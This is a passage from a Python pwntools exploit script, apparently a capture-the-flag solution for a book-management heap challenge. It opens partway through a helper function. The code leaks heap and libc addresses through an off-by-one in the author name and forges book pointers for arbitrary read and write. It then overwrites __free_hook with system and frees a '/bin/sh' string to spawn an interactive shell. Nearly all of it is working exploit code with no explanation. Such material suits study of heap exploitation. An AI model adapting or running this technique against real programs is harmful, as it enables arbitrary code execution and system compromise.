 ```Python  
    p.sendline('1')
    p.sendlineafter('Enter book name size: ', str(name_size))
    p.sendlineafter('Enter book name (Max 32 chars): ', book_name)
    p.sendlineafter('Enter book description size: ', str(des_size))
    p.sendlineafter('Enter book description: ', book_des)

def delete(book_id):
    p.recv()
    p.sendline('2')
    p.sendlineafter('Enter the book id you want to delete: ', str(book_id))

def edit(book_id, book_des):
    p.recv()
    p.sendline('3')
    p.sendlineafter('Enter the book id you want to edit: ', str(book_id))
    p.sendlineafter('Enter new book description: ', book_des)

def show():
    p.recvuntil('>')
    p.sendline('4')

def change_author_name(name):
    p.recv()
    p.sendline('5')
    p.sendlineafter('Enter author name: ', name)

p.recvuntil("name: ")
p.sendline("a"*30+"b"*2)
create(140,"N0vice",140,"welcome")
show()

p.recvuntil("bb")
book1_addr=u64(p.recv(6).ljust(8, '\x00'))
log.success("book1_addr==>" + hex(book1_addr))

book2_addr = book1_addr + 0x30
book2_des = book2_addr + 0x10
create(0x21000,"nnn",0x21000,"hello")
edit(1,"a"*0x40 + p64(0x1) + p64(book2_des) + p64(book2_des-0x8) + p64(0xffff))
change_author_name("a"*30+"c"*2)

show()

address = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
print hex(address)
offset = 0x5a4010
libc_base = address - offset
system_addr = libc_base + libc.sym['system']
free_hook = libc_base + libc.sym['__free_hook']
binsh_addr = libc_base + libc.search("/bin/sh").next()
log.success("libc_base==>" + hex(libc_base))
log.success("stytem_addr==>" + hex(system_addr))
log.success("free_hook_addr==>" + hex(free_hook))
log.success("binsh_addr==>" + hex(binsh_addr))

payload = p64(binsh_addr) + p64(free_hook)
edit(1,payload)
#gdb.attach(p)
payload = p64(system_addr)
edit(2,payload)
delete(2)

p.interactive()
```